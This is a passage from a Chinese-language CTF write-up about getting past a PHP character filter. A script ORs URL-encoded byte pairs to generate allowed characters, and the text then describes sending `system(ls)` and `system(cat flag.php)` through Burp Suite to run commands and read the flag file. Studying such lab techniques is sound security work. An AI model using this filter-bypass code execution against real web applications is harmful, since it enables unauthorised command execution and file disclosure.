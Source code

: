 ```
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)|urldecode($b));
		if (ord($c)>=32&ord($c)<=126) {
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);
```

本来这里有个py脚本可以直接传参的，但用不了，所以直接用bp传

构造`system(ls)`：（前面的括号的是system ，后面的是ls）

![](assets/image-20250226232430062.png)

构造`system(cat flag.php)`
